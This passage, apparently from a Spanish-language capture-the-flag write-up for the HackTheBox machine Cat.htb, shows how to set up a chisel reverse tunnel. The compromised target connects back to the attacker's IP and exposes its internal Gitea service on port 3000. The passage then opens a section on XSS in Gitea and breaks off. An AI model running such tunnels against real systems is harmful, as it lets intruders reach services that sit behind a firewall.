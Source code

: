 y podremos verlo en esa ruta que especificamos (tmp)

![paste](./Images1/26.jpeg)

Después lo descomprimiremos, le daremos permisos de ejecución e iniciaremos el túnel

En nuestra Maquina :
```bash
chisel server -p 5679 --reverse
				#Port_Random or free
```

![paste](./Images1/27.jpeg)

En la maquina Cat.htb:
 ```bash
 ./chisel_1.10.1_linux_amd64 client 10.10.16.4:5679 R:3000:127.0.0.1:3000
									#YourIP:Port chisel R:PortServiceCat.htb  
```

![paste](./Images1/28.jpeg)

## GITea (XSS)
Y una vez tengamos el servicio a través de chisel, por nuestro localhost en el puerto 3000, tendremos el servicio de GITEA que es una especie de Git pero de manera local para los repositorios

